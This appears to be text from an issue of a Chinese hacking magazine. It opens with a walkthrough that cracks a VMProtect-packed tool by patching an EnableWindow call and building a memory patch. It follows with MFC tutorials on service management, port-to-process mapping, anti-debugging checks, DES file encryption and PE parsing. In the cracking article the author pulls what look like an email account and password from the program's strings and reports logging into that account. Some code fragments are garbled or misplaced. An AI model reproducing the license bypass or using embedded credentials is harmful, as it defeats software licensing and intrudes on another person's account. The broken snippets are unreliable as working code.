IDA 里面修改程序不太好用，建议使用其他的编辑工具对程序进行修改。IDA 的交叉引用功能相当强大，利用这个功能我们可以看出程序的运行流程以及跳转机制，这样我们就可以方便地在 OD 或者其他的动态调试工具中进行跟踪了。

> （文中涉及的相关程序本期光盘已收录）

# 入侵 VMProtect 保护的软件

- 目标程序：过驾照工具（我也不知道什么用）
- 加壳方式：VMProtect v.1.6x - 2.03
- 软件大小：788KB
- 使用工具：Dintal-OD, O11DBG, keymake, exeinfope

前言：对于很多菜鸟而言，当听到软件加了 VMProtect 的壳子，很多人都选择放弃。的确对于新手来说如果遇到代码被大量 VM 的情况，我也建议放弃了，因为代码被 VM 得太多的话，要把壳子脱掉是很困难的事，或者换句话说是很麻烦的事，因为没有扎实的汇编功底很难把 VMProtect 分析透彻；但是，VMProtect 之所以是很难搞的东西，是因为它的 VM 功能被用对了地方，如果加壳的人根本不会使用 VMProtect，只是随意加壳，那就可能很容易被破解掉了，不信么？下面看看我怎样做，破文开始。

使用 exeinfope 对目标程序进行查壳，发现是 VMProtect v.1.6x - 2.03（demo）（图1）。

即使查不出壳，也可以通过区段判断这是 VMProtect 的壳子，因为有 vmp 区段、tls 区段。（图2）

图1

把壳子干掉的人，那可能世界上没几个，或者夸张了，但是的确是很难的，因为程序每运行一步都会解码的，如果能从未解码的代码里解密出原程序，那是神了。呵呵，扯远了，继续对付这程序吧。程序未注册的时候，所有功能都是不可用的，所有按钮都是灰色的。我们要突破它的功能限制，就得先把它的功能按钮显示出来。先按照常规思路在软件正常运行的时候，也就是已经解码之后，查找一下字符串。如果从程序入口点开始查找字符串的话，查出来的字符串只有几行。（图6）

图2

先试试用 OD 原版载入玩玩，载入后，F9 运行，发现 VMProtect 检测到被调试了，弹出了提示框，点确定后自动退出程序。（图3）

图5  
图3  
图6

其实 VMProtect 对被调试的检测还是很强的，如果自己去过反调试的话，那就超出菜鸟们的能力和体力范围了 ^^，所以这里推荐用原 OllDBG 加上 StrongOD 插件去进行调试。StrongOD 是一款 OD 增强插件，对反调试的壳子有反反调试功能，也就是 Anti-Anti-Debug，简单点说就是能让你在调试 VMProtect 的时候不被 VMProtect 发现，从而能更顺畅地调试下去。这里我用的自己修改的 Dintal-OD 就是集成了 StrongOD 的版本。现在的版本还可以检测当前调试的是不是被 vmp 的软件（图4）。

那应该怎样查才可以在 VMProtect 保护的软件下查出字符串呢？那就得到程序的代码里去找，而不是在壳的代码里找，做法如下。F9 运行程序，F12 暂停，然后 Alt+F9 返回程序领空：

图4

现在再来 F9 运行软件，程序正常运行起来了，VMProtect 连 OD 的毛也检测不到，哈哈。（图5）

其实在脱壳的时候，或者说在破解软件的时候，第一步就是让程序可以正常被调试，否则单单靠静态分析的话，能……

```asm
004A4DAF 57                push edi
004A4DB0 FF15 4C054B00     call dword ptr ds:[4B054C]
```

然后在这里查找字符串看看，是不是查找到很多呢？2797 条字符串（图7）。

翻看了一下字符串，找到很多信息，其中有一条引起了我的注意，看上去这三项分别就是腾讯的服务器、腾讯的 QQ 账号、腾讯 QQ 的密码。（图8）

| 地址 | 内容 |
|---|---|
| 00412767 | 4078592802 |
| 00412773 | 646135400 |
| 0041278D | smtp.qq.com |

我试了试登录，果然登录上去了，估计这个账号是作者用作发送信息的。看来这个工具是网络验证的。找了其他字符串，也发现其他账号信息，猜测这个软件的验证是靠网上读取某个地方的字符串，然后看看有没有和软件内的密文相同的，如果有相同的就是注册版，没有就是无权使用版。

分析基本上就这样了。这个软件既然只是限制了按钮的可按性，那我们就来下功能限制断点吧，重载程序；在命令栏输入 bp EnableWindow，然后运行，点击程序上的确定按钮，发现中断下来了。（图9）

在堆栈窗口第一行点左键，然后按回车，反汇编窗口跟随到这里：

```asm
004A3EC3 75 0F             jnz short 004A3ED4
004A3EC5 FF7424 04         push dword ptr [esp+0x4]
004A3EC9 FF71 1C           push dword ptr [ecx+0x1C]
004A3ECC FF15 84044B00     call dword ptr [0x4B0484] ; user32.EnableWindow
004A3ED2 EB 0E             jmp short 004A3EE2
```

为了知道压入了什么数据，我们在 004A3EC3 下断，然后 F9 运行，再次点击“确定”按钮，这时单步向下走。我们来到 004A3EC5 的时候，看看数据窗口里的数据是什么（图10），发现是 0。按照一般思路，0 应该是代表不显示窗口，而“1”就是显示窗口了。因此我们尝试修改代码，让它压入“1”，我修改的代码是这样的：

```asm
004A3EC3 75 0F             jnz short 004A3ED4
004A3EC5 6A 01             push 0x1
004A3EC7 90                nop
004A3EC8 90                nop
004A3EC9 FF71 1C           push dword ptr [ecx+0x1C]
004A3ECC FF15 84044B00     call dword ptr [0x4B0484] ; user32.EnableWindow
004A3ED2 EB 0E             jmp short 004A3EE2
```


图10

然后 F9 运行程序试试，发现按钮都出来了，那就成功了（图11）。这时我们试试把程序保存下来，发现无法定位给数据，原因很简单，壳子是动态解码的，现在还是带壳调试，所以是无法保存的，那不是白搞了？不会，我们来“插”VMProtect 吧，拿出我们的神器 Keymake，首先选择“其它”-“制作内存补丁”（图12），然后根据我们的记录，把修改的地方填好，其他信息可以随便填（图13）。别忘了要选上在程序空闲的时候修改程序哦，否则会被 VMP 发现的，最后生成补丁。运行补丁试试，点“确定”按钮看看，是不是什么按钮都显示出来了，就这样 VMProtect 保护的软件被我们插了一个洞了。


图11


图13


图12

后感：其实强壳是需要懂它的人使用，才会是真正的强壳。像上面的例子，如果作者把我们修改的地方也 VMP 了，那我们就很难修改了。因此，各位菜鸟同胞，遇到 VMP 不用怕，想办法调试，找到关键点然后就大胆“插”它吧！

> （文中涉及的相关软件本期光盘已收录）

# 本地服务监测工具

沧海浮萍

计算机中的服务操控着计算机的运行，而且通过对服务的设置，我们可以将一些软件设置为自动启动，这也是很多病毒与木马常用的手段：创建一个服务，然后设置为自动启动。很多杀毒软件通过检测本地的服务来确定一个服务是否是可疑的或者是危险的，本文笔者就通过编程的方法来打造自己专用的服务管理工具。

我们采用的平台仍然为 VC6.0，首先在我们的 dialog 对话框上添加一个列表控件，然后设置一个关联变量 m_list，然后增加一个按钮来刷新服务。我们需要获取的服务信息有：服务名称、显示名称、启动状态、启动类别、程序路径。我们需要在列表控件进行分栏设置，代码如下：

```cpp
// 获得原有风格
DWORD dwStyle = ::GetWindowLong(m_list.m_hWnd, GWL_STYLE);
dwStyle &= ~(LVS_TYPEMASK);
dwStyle &= ~(LVS_EDITLABELS);

// 设置新风格
::SetWindowLong(m_list.m_hWnd, GWL_STYLE, dwStyle | LVS_REPORT | LVS_NOLABELWRAP | LVS_SHOWSELALWAYS);

// 设置扩展风格
DWORD styles = LVS_EX_FULLROWSELECT | LVS_EX_GRIDLINES;
ListView_SetExtendedListViewStyleEx(m_list.m_hWnd, styles, styles);

m_list.InsertColumn(0, "服务名称", LVCFMT_LEFT, 300, -1);
m_list.InsertColumn(1, "显示名称", LVCFMT_LEFT, 400, -1);
m_list.InsertColumn(2, "启动状态", LVCFMT_LEFT, 100, -1);
m_list.InsertColumn(3, "启动类别", LVCFMT_LEFT, 100, -1);
m_list.InsertColumn(4, "程序路径", LVCFMT_LEFT, 800, -1);
```

列表控件设置好之后，我们首先来获取本地的服务，然后将信息添加到列表控件中，这也是刷新按钮的功能，代码如下所示：

```cpp
void CMyDlg::OnOK()
{
    m_list.DeleteAllItems(); // 清空列表
    UpdateData(false);

    LPQUERY_SERVICE_CONFIG ServicesInfo = NULL;
    LPENUM_SERVICE_STATUS lpServices = NULL;

    DWORD nSize = 0;
    DWORD n;
    DWORD nResumeHandle = 0;
    DWORD dwServiceType = SERVICE_WIN32;

    SC_HANDLE schSCManager = NULL;
    BOOL bFlag = FALSE;

    if ((schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS)) == NULL) // 打开服务管理器
    {
        AfxMessageBox("OpenSCManager Error\n");
    }

    lpServices = (LPENUM_SERVICE_STATUS)LocalAlloc(LPTR, 64 * 1024); // 申请内存存放信息

    EnumServicesStatus(
        schSCManager,
        dwServiceType,
        SERVICE_STATE_ALL,
        (LPENUM_SERVICE_STATUS)lpServices,
        64 * 1024,
        &nSize,
        &n,
        &nResumeHandle
    );

    for (unsigned long i = 0; i < n; i++)
    {
        // Display The Services 显示所有的服务
    }
}
```

```cpp
SC_HANDLE service = NULL;
DWORD nResumeHandle = 0;
service = OpenService(schSCManager, lpServices[i].lpServiceName, SERVICE_ALL_ACCESS); // 打开当前指定服务的句柄

ServicesInfo = (LPQUERY_SERVICE_CONFIG)LocalAlloc(LPTR, 4 * 1024);
QueryServiceConfig(service, ServicesInfo, 4 * 1024, &nResumeHandle); // 查询服务启动类别

int nitem = m_list.InsertItem(0, lpServices[i].lpServiceName, 0); // 服务名称
m_list.SetItemText(nitem, 1, lpServices[i].lpDisplayName); // 显示名称
if (lpServices[i].ServiceStatus.dwCurrentState != SERVICE_STOPPED) {
    m_list.SetItemText(nitem, 2, "已启动");
} else {
    m_list.SetItemText(nitem, 2, "停止");
}

if (2 == ServicesInfo->dwStartType) {
    m_list.SetItemText(nitem, 3, "自动");
}
if (3 == ServicesInfo->dwStartType) {
    m_list.SetItemText(nitem, 3, "手动");
}
if (4 == ServicesInfo->dwStartType) {
    m_list.SetItemText(nitem, 3, "禁止");
}
```

```cpp
m_list.SetItemText(nitem, 4, ServicesInfo->lpBinaryPathName); // 程序路径
UpdateData(false);
```

通过上面的代码我们就可以获取服务的信息了，如图1所示。


图1

获取了信息之后，我们还需要对每一个服务进行相应的管理。这里我们需要一个右键菜单，当点击一个服务选项的时候就可以使用右键进行管理，右键菜单代码如下所示：

```cpp
void CMyDlg::OnContextMenu(CWnd* pWnd, CPoint point)
{
    CMenu popMenu;
    VERIFY(popMenu.LoadMenu(IDR_MENU_POPUP));
    CMenu *p = popMenu.GetSubMenu(0);
    ASSERT(p != NULL);
    p->TrackPopupMenu(TPM_LEFTALIGN | TPM_LEFTBUTTON, point.x, point.y, AfxGetMainWnd());
}
```

IDR_MENU_POPUP 是我们菜单的 ID 号，在编写这段代码之前，我们需要先创建菜单资源，如图2所示。


图2

然后对菜单的 ID 进行消息响应，这里用停止服务的选项为示例。首先在消息映射中添加消息响应：

```cpp
ON_COMMAND(ID_MENU_STOP, OnMenuStop)
```

然后添加响应函数 OnMenuStop，代码如下所示：

```cpp
void CMyDlg::OnMenuStop()
{
    EnablePriv(); // 首先提升进程权限

    char ServerName[100] = "";
    int x = m_list.GetSelectionMark(); // 获取选中项
    m_list.GetItemText(x, 0, ServerName, 100);

    SC_HANDLE scm;
    SC_HANDLE service;
    SERVICE_STATUS status;

    if ((scm = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE)) == NULL) // 打开服务管理器
    {
        MessageBox("OpenSCManager Error\r\n");
    }

    service = OpenService(scm, ServerName, SERVICE_ALL_ACCESS);
    if (!service)
    {
        MessageBox("OpenService error!\r\n");
    }

    BOOL isSuccess = QueryServiceStatus(service, &status);
    if (!isSuccess)
    {
        MessageBox("QueryServiceStatus error!\r\n");
    }

    if (status.dwCurrentState != SERVICE_STOPPED)
    {
        isSuccess = ControlService(service, SERVICE_CONTROL_STOP, &status); // 停止服务
        if (!isSuccess)
        {
            MessageBox("停止服务失败!");
        }
        else
        {
            MessageBox("停止服务成功!");
        }
    }
}

BOOL EnablePriv() // 提升进程权限
{
    HANDLE hToken;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
        TOKEN_PRIVILEGES tkp;
        LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid); // 修改进程权限
        tkp.PrivilegeCount = 1;
        tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof tkp, NULL, NULL); // 通知系统修改进程权限
        return (GetLastError() == ERROR_SUCCESS);
    }
}
```

其他的代码已经在代码示例中了，读者们可以自己阅读分析，通过修改、封装，则可以将这个小工具的代码提取放到自己的程序中。

> （文中的相关代码本期光盘已收录）

# 端口进程检测工具

沧海浮萍


图1

检测本地进程与开放端口的关联，有助于我们及时地发现病毒或者入侵。本文就为大家介绍进程与端口管理工具的制作，开发平台仍然为 VC++6.0。这里需要用到一个第三方开发库 IPHelper，已在源代码中为大家打包。

首先我们新建一个 MFC 的 dialog 对话框模式框架，然后添加一个列表控件，同时为控件设置一个关联变量 m_caller_list。添加一个按钮用于刷新列表，如图1所示。在列表中我们需要得到程序的如下信息：协议、PID、程序名、端口状态、本机地址、远程地址、程序路径，因此需要在列表控件的头部设置分栏信息，代码如下：

```cpp
char *szColumn[] = {"协议", "PID", "程序", "状态", "本机地址", "远程地址", "程序路径"};
int widths[] = {50, 50, 100, 100, 120, 120, 250}; // 栏宽度
LV_COLUMN lvc;
lvc.mask = LVCF_FMT | LVCF_WIDTH | LVCF_TEXT | LVCF_SUBITEM;
lvc.fmt = LVCFMT_LEFT;
for (int i = 0; i < 7; i++) // 循环向列表头添加信息
{
    lvc.pszText = szColumn[i];
    lvc.cx = widths[i];
    lvc.iSubItem = i;
    m_caller_list.InsertColumn(i, &lvc);
}
```

然后我们需要定义几个用到的结构体，如下所示：

```cpp
// 结构定义
typedef struct tagMIB_TCPEXROW {
    DWORD dwState;      // tcp连接状态
    DWORD dwLocalAddr;  // 本地ip地址
    DWORD dwLocalPort;  // 打开本地端口
    DWORD dwRemoteAddr; // 远程ip地址
    DWORD dwRemotePort; // 远程端口号
    DWORD dwProcessId;  // 进程标识
} MIB_TCPEXROW, *PMIB_TCPEXROW;

typedef struct tagMIB_UDPEXROW {
    DWORD dwLocalAddr;  // 本地ip地址
    DWORD dwLocalPort;  // 打开本地端口
    DWORD dwProcessId;  // 进程标识
} MIB_UDPEXROW, *PMIB_UDPEXROW;
```

我们获取程序以及其对应的端口号所采用的函数来自于一个第三方开发包 iphlpapi.dll，我们会使用到其中的 2 个函数 AllocateAndGetTcpExTableFromStack、AllocateAndGetUdpExTableFromStack，这两个函数分别获取 TCP、UDP 的连接信息，这两个函数的获取代码如下：

```cpp
BOOL LoadAPI()
{
    pAllocateAndGetTcpExTableFromStack =
        (PALLOCATE_AND_GET_TCPEXTABLE_FROM_STACK)
        GetProcAddress(LoadLibrary("iphlpapi.dll"),
        "AllocateAndGetTcpExTableFromStack"); // 加载动态链接库并获取第一个函数
    if (!pAllocateAndGetTcpExTableFromStack)
        return FALSE;

    pAllocateAndGetUdpExTableFromStack =
        (PALLOCATE_AND_GET_UDPEXTABLE_FROM_STACK)
        GetProcAddress(LoadLibrary("iphlpapi.dll"),
        "AllocateAndGetUdpExTableFromStack"); // 获取第二个函数
    if (!pAllocateAndGetUdpExTableFromStack)
        return FALSE;
}
```

在获取进程名字的时候，我们需要通过进程的 PID，获取方式如下：

```cpp
CString GetProcessName(DWORD processid)
{
    CString sPath;
    if (processid == 4) // 特定的系统进程
    {
        sPath = "System";
        return(sPath);
    }
    if (processid == 0) // 特定的系统进程
    {
        sPath = "System Idle Process";
        return(sPath);
    }

    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processid); // 通过PID号打开进程
    if (hProcess == NULL)
    {
        sPath = "unknown";
        return(sPath); // 进程打开失败，可能被保护
    }

    HMODULE hModule;
    DWORD cbReturned;
    BOOL bret = EnumProcessModules(hProcess, &hModule, sizeof(hModule), &cbReturned);
    if (bret)
    {
        GetModuleBaseNameA(hProcess, hModule, sPath.GetBuffer(MAX_PATH), MAX_PATH); // 获取进程名称
        sPath.ReleaseBuffer();
    }
    else
        sPath = "unknown";

    CloseHandle(hProcess);
    return(sPath);
}
```

然后是获取程序的路径：

```cpp
CString GetProcessPath(DWORD idProcess)
{
    // 获取进程路径
    CString sPath;
    // 打开进程句柄
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, idProcess);

    if (NULL != hProcess)
    {
        HMODULE hMod;
        DWORD cbNeeded;
        // 获取路径
        if (EnumProcessModules(hProcess, &hMod, sizeof(hMod), &cbNeeded))
        {
            DWORD dw = GetModuleFileNameEx(hProcess, hMod, sPath.GetBuffer(MAX_PATH), MAX_PATH); // 获取路径名称
            sPath.ReleaseBuffer();
        }
        CloseHandle(hProcess);
    }
    return(sPath);
}
```

在上面的基本函数实现了之后，剩下的就是获取进程与端口的关联了。由于这部分代码比较多，这里就不为大家列举了，详细的代码已经为大家打包了，感兴趣的读者可以自己查看源代码，程序运行结果如图2所示。


图2

> （文中涉及的相关代码本期光盘已收录）

# 反调试检测

沧海浮萍

反调试技术是一种常见的反检测技术，因为恶意软件总是企图监视自己的代码，以检测自己是否正在被调试。为做到这一点，恶意软件可以通过检查自己代码是否被设置了断点，或者直接通过系统调用来检测调试器。本文就为大家介绍一下常见的调试检测方法，并以实战编码的方式为大家讲解。首先来看一下常见的检测调试的方法。

```asm
mov eax, byte [eax+2]
test eax, eax
jne @DebuggerDetected
```

在上面的代码中，eax 被设置为 PEB（进程环境块），然后访问 PEB 的第二个字节，并将该字节的内容移入 eax。通过查看 eax 是否为零，即可完成这项检测。如果为零，则不存在调试器；否则，说明存在一个调试器。

## 1. 断点检测

为了检测其代码是否被设置断点，目标软件可以查找指令操作码 0xCC（调试器会使用该指令在断点处取得恶意软件的控制权），它会引起一个 SIGTRAP。如果目标软件代码本身建立了一个单独的处理程序的话，目标软件也可以设置伪断点。用这种方法，目标软件可以在被设置断点的情况下继续执行其指令，这样也就可以执行发现被调试后的特定代码。

## 2. 计算校验和

恶意软件也可以计算自身的校验和，如果校验和发生变化，那么病毒会假定它正在被调试，并且其代码内部已被放置断点。VAMPiRE 是一款抗反调试工具，可用来逃避断点的检测。VAMPiRE 通过在内存中维护一张断点表来达到目的，该表记录已被设置的所有断点。该程序由一个页故障处理程序（PFH）、一个通用保护故障处理程序（GPFH）、一个单步处理程序和一个框架 API 组成。当一个断点被触发的时候，控制权要么传给 PFH（处理设置在代码、数据或者内存映射 I/O 中的断点），要么传给 GPFH（处理遗留的 I/O 断点）。单步处理程序用于存放断点，使断点可以多次使用。

## 3. 检测调试器

在 Linux 系统上检测调试器有一个简单的方法，只要调用 Ptrace 即可，因为对于一个特定的进程而言，无法连续地调用 Ptrace 两次以上。在 Windows 中，如果程序目前处于被调试状态的话，系统调用 IsDebuggerPresent 将返回 1，否则返回 0。这个系统调用简单检查一个标志位，当调试器正在运行时该标志位被置 1。直接通过进程环境块的第二个字节就可以完成这项检查，以下的汇编代码为大家展示的就是这种技术：

```asm
mov eax, fs:[30h]
```

如果某个进程为提前运行的调试器所创建的，那么系统就会给 ntdll.dll 中的堆操作例程设置某些标志，这些标志分别是 FLG_HEAP_ENABLE_TAIL_CHECK、FLG_HEAP_ENABLE_FREE_CHECK 和 FLG_HEAP_VALIDATE_PARAMETERS。下列汇编码可用于检查这些标志：

```asm
mov eax, fs:[30h]
mov eax, [eax+68h]
and eax, 0x70
test eax, eax
jne @DebuggerDetected
```

在上面的代码中，我们还是访问 PEB，然后通过将 PEB 的地址加上偏移量 68h 到达堆操作例程所使用的这些标志的起始位置，通过检查这些标志就能知道是否存在调试器。

另一种检测调试器的方法是，使用 NtQueryInformationProcess 这个系统调用。我们可以将 ProcessInformationClass 设为 7 来调用该函数，这样会引用 ProcessDebugPort，如果该进程正在被调试的话，该函数将返回 -1。示例代码如下所示。

```asm
push 0
push 4
push offset isDebugged
push 7 ;ProcessDebugPort
push -1
call NtQueryInformationProcess
test eax, eax
jne @ExitError
```

```cpp
cmp isDebugged, 0
jne @DebuggerDetected

// 代码开始
mov edi, offset CodeStart
mov edx, offset CodeStart
mov ecx, offset CodeEnd
sub ecx, edx
mov al, 0CCH
repne scasb
jnz ODNotFound
mov bFoundOD, 1
ODNotFound:
}

return bFoundOD;
```

## 单步异常检测

```cpp
void OnTrapFlag()
{
    try{
        __asm{
            pushfd
            // 触发单步异常
            or dword ptr [esp], 100h // TF=1
            popfd
        }
        AfxMessageBox("检测到OD");
    }catch(...){
        AfxMessageBox("没有OD");
    }
}
```

## ZwQueryInformationProcess 检测

```cpp
void OnZwQueryInformationProcess()
{
    // TODO: Add your control notification handler code here
    HANDLE hProcess;
    HINSTANCE hModule;
    DWORD dwResult;
    ZW_QUERY_INFORMATION_PROCESS MyFunc;

    hModule = GetModuleHandle("ntdll.dll");
    MyFunc = (ZW_QUERY_INFORMATION_PROCESS)GetProcAddress(hModule, "ZwQueryInformationProcess");

    hProcess = GetCurrentProcess();
    MyFunc(
        hProcess,
        ProcessDebugPort,
        &dwResult,
        4,
        NULL);

    if(dwResult!=0)
    {
        AfxMessageBox("发现OD");
    }
    else
    {
        AfxMessageBox("没有OD");
    }
}
```

## IsDebuggerPresent 检测

```cpp
void OnIsDebuggerPresent()
{
    if(IsDebuggerPresent())
    {
        MessageBox("发现OD");
    }
    else
    {
        MessageBox("没有OD");
    }
}

// 函数断点检测
BOOL DetectFuncBreakpoints()
{
    BOOL bFoundOD;
    bFoundOD = FALSE;
    DWORD dwAddr;
    dwAddr=(DWORD)::GetProcAddress(LoadLibrary("user32.dll"),"MessageBoxA");
    __asm
    {
        cld
        mov edi,dwAddr
        mov ecx,100        // 100bytes
        mov al,0CCH
        repne scasb
        jnz ODNotFound
        mov bFoundOD,1
ODNotFound:
    }
    return bFoundOD;
}

// HardwareBreakpoint检测
void CDetectODDlg::OnHardwareBreakpoint()
{
    ...
}
```

```cpp
pSetUnhandledExceptionFilter = (pSetUnhandledExceptionFilter)GetProcAddress(LoadLibrary("kernel32.dll"),"SetUnhandledExceptionFilter");
lpOldHandler=(DWORD)pSetUnhandledExceptionFilter(TopUnhandledExceptionFilterHBP);

__asm{
    mov NewEip,offset safe   // 方法更简单
    int 3
    mov isDebuggedHBP,1      // 调试时可能也不会触发异常去检测硬件断点
safe:
}
if(1==isDebuggedHBP){
    AfxMessageBox("发现OD");
}else{
    AfxMessageBox("没有OD");
}
```

还有一些其他的方法直接给出代码，笔者这里已经将常用的检测方法写到了一个程序中，如图 1 所示，感兴趣的读者可以仔细学习一下。


图1

（文中涉及的相关代码本期光盘已收录）

# 黑客编程

## 别动我的文件——DES加密文件

沧海浮萍

加密技术在互联网信息安全领域里永远是一个永恒的话题。无论是网站登录密码的安全传输、文件的机密传输、会话的机密传输，还是其他的应用，几乎在你感觉需要保密的任何地方，加密就会存在。我们日常接触的需要加密的地方主要集中在各类登录的密码传输上（当然某些网站不怕泄密的话就不需要对密码进行加密了）、机要文件的保存与传输、各类即时会话的信息传输上。这些加密方法主要采用密码学中的一些经典算法，比如我们最熟悉的 MD5、DES 等。根据加密的类别，这些被加密的数据又可分为可逆转的与不可逆转的两种……本文就为大家介绍一下应用于文件加密的可逆加密方式——DES……如图1所示。

……输入密钥后选择我们要加密的文件，如图4所示。选择完毕之后我们的加密程序会立即将文件进行加密，加密之后会在与原文件同目录的地方生成一个后缀名为 .cript 的文件，如图3所示。我们采用文本方式打开这个加密后的文件，如图6所示，已经变成了乱码，我们根本无法阅读。下面我们就对加密后的文件进行解密操作……保证密钥正确的情况下，程序对文件进行解密操作，解密后会在同目录下生成一个后缀为 .decode 的文件，如图7所示。我们采用文本模式打开这个解密后的文件，如图8所示，我们的明文已经回来了。注意，这里我们对文件采用 DES 加密可以进行多次加密，可以分别使用不同密钥，只要解密时使用正确的密钥就可以了。


图2


图1


图3

笔者采用的依然是 MFC 应用程序调用 DLL，软件生成后的界面如图2所示。我们将一个 txt 文本文档用来做文件加密测试，内容如图3所示。我们打开加密软件，在软件密钥的地方输入加密密钥，这里采用“12345678”作为测试（因为 DLL 库中定义的密钥长度为 8 位）。


图4


效果已经看到了，下面就来看一下代码实现吧。先来看一下 DLL 源代码，密码学实现的方法部分就不在这里描述了。由于涉及到复杂的算法以及理论，感兴趣的读者可以自己看源代码。我们只看一下 DLL 的接口。它的接口函数在 def 文件中进行了导出说明，在 des_dll.cpp 中进行了实现。三个接口函数分别是：

```cpp
int set_des_key(char *key);//用于设置密钥
int encrypt_file(char *file_src,char *file_crypt);//用于对文件进行加密操作
int decrypt_file(char *file_crypt,char *file_src);//用于对文件进行解密操作
```

DLL 完毕后就是我们的主应用程序了。由于笔者使用的是动态调用，所以这里要介绍一下 DLL 动态调用的方法。

方法：首先要加载 DLL 动态链接库：

```cpp
HMODULE hd;
hd=LoadLibrary("des.dll");
```

加载完毕后获取 DLL 内部的函数地址：

```cpp
typedef int(*lpSetDesKey)(char *key);//用于设置密钥
lpSetDesKey setkey;
setkey=(lpSetDesKey)GetProcAddress(hd,"set_des_key");

typedef int(*lpEncodeFile)(char *file_src,char *file_crypt);//用于对文件进行加密操作
lpEncodeFile encode;
encode=(lpEncodeFile)GetProcAddress(hd,"encrypt_file");

typedef int(*lpDecodeFile)(char *file_crypt,char *file_src);//用于对文件进行解密操作
lpDecodeFile decode;
decode=(lpDecodeFile)GetProcAddress(hd,"decrypt_file");
```

获取地址之后就是使用函数，具体就是对文件进行加解密操作，这里就是设置密钥、加密操作以及解密操作。

DLL 动态链接库使用完毕之后就需要对 DLL 进行释放操作，代码如下：

```cpp
FreeLibrary(hd);
```

下面就是主程序实现的核心代码，如下：

```cpp
void CDesDlg::OnButton1() //这里是对文件进行加密的代码部分
{
    CString key;
    m_key.GetWindowText(key);
    if (key.GetLength()!=8)
    {
        MessageBox("密钥长度必须为8位");
        return;
    }
    setkey(key.GetBuffer(0)); //这里就是设置密钥
    key.ReleaseBuffer();
    CString fname,cript_fname;
    cript=".cript";
    ...
}
```

```cpp
CFileDialog FileDlg(true,NULL,fname);
if(FileDlg.DoModal())
{
    fname=FileDlg.GetPathName();//获取用户选的那个用于加密的文件
}

fname_=fname;
fname+=cript;

encode=(lpEncodeFile)GetProcAddress(hd,"encrypt_file");
encode(fname.GetBuffer(0),fname_.GetBuffer(0));//这里就是加密函数的调用
fname.ReleaseBuffer();
fname_.ReleaseBuffer();

void CDesDlg::OnButton2() //这里是文件的解密操作
{
    CString key;
    m_key.GetWindowText(key);//获取用户输入的密钥
    if (key.GetLength()!=8)
    {
        MessageBox("密钥长度必须为8位");
        return;
    }
}
```

```cpp
setkey(key.GetBuffer(0));//这里就是设置密钥
key.ReleaseBuffer();

CString finame, cript, fname;
cript=".cript";

CFileDialog FileDlg(true,NULL,finame);
if(FileDlg.DoModal())
{
    finame=FileDlg.GetPathName();//获取用户需要解密的文件
}

fname=finame;
fname+=".decode";

decode=(lpDecodeFile)GetProcAddress(hd,"decrypt_file");
decode(finame.GetBuffer(0),fname.GetBuffer(0));//调用函数，对文件进行解密操作
finame.ReleaseBuffer();
fname.ReleaseBuffer();
```

本文主要介绍了笔者一个 DES 加密库的使用方法，感兴趣的读者可以自己修改文中的代码生成自己的 DLL。同时为大家介绍了 DLL 库的使用方法。编程并不神秘，主要的还是思想，因为语法是死的，只有人才是活的。学会编程的思想，慢慢地大家都会做出自己的东西来。

## 打造自己的PE文件查看器

沧海浮萍

本文为大家介绍一下 PE 文件信息查看器的编写。由于软件代码量比较大，不能够一一为大家结合来说，所以这里就把关键代码部分为大家讲解一下。在正文开始之前，我们先来看一下什么是 PE 文件以及 PE 文件中的关键信息。

什么是 PE 文件：PE 文件被称为可移植的执行体，是 Portable Execute 的全称。常见的 EXE、DLL、OCX、SYS、COM 都是 PE 文件。PE 文件是微软 Windows 操作系统上的程序文件（可能是间接被执行，如 DLL）。

什么是导入表：导入表是导入函数的集合，导入函数也叫引入函数。引入函数被该模块调用，但它又不在该模块中。调用模块中只包含了该函数的一些信息，比如函数名、它所在的 DLL 名等信息。这些信息都保存在 PE 文件中的导入表中。

文件的导入表，必须先找到 Data Directory，即数据目录。

什么是导出表：导出表是导出函数的集合。在 EXE、DLL、SYS 等可执行文件中，提供给其它可执行文件使用（调用）的函数均称为导出函数。一般这类程序中都有一个导出函数表，用于说明本程序中有哪些函数可供其它程序调用。


图1

软件运行后的主界面如图1所示，软件的功能比较全，可以查询 PE 文件的几乎所有信息，包括入口点、映像基址、数据基址、节对齐等等。由于代码中使用了大量的偏移，所以在这里需要介绍一下 PE 文件的数据结构，具体的结构详解请看“PE 文件详解（本文绝大部分内容来源于互联网）”。要想完全明白本文的代码含义，读者需要详细地阅读该篇文章，慢慢体会。

这里主要为大家介绍一下几个关键部分的代码：PE 结构的获取。下面是函数声明，分别用于获取不同的结构。

```c
BOOL LoadFile(LPTSTR lpFilename, PMAP_FILE_STRUCT pstMapFile); // 加载用户指定的文件，并且获取相应的数据
BOOL IsPEFile(LPVOID ImageBase); // 该函数用于判断用户选定的文件是否合法的PE文件
PIMAGE_NT_HEADERS GetNtHeaders(LPVOID ImageBase); // 获取NT头部信息
PIMAGE_FILE_HEADER GetFileHeader(LPVOID ImageBase);
PIMAGE_OPTIONAL_HEADER GetOptionalHeader(LPVOID ImageBase);
PIMAGE_SECTION_HEADER GetFirstSectionHeader(LPVOID ImageBase);
LPVOID RvaToPtr(PIMAGE_NT_HEADERS pNth, LPVOID ImageBase, DWORD dwRVA);
LPVOID GetDirectoryEntryToData(LPVOID ImageBase, USHORT DirectoryEntry);
PIMAGE_EXPORT_DIRECTORY GetExportDirectory(LPVOID ImageBase);
PIMAGE_IMPORT_DESCRIPTOR GetFirstImportDesc(LPVOID ImageBase);
```

```c
GetFirstImportDesc(LPVOID ImageBase)

// 部分代码实现：
BOOL LoadFile(LPCTSTR lpFilename, PMAP_FILE_STRUCT pstMapFile) // 加载文件
{
    HANDLE hFile;
    HANDLE hMapping;
    LPVOID ImageBase;

    memset(pstMapFile, 0, sizeof(MAP_FILE_STRUCT));

    hFile = CreateFile(lpFilename, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
    if (!hFile)
        return FALSE;

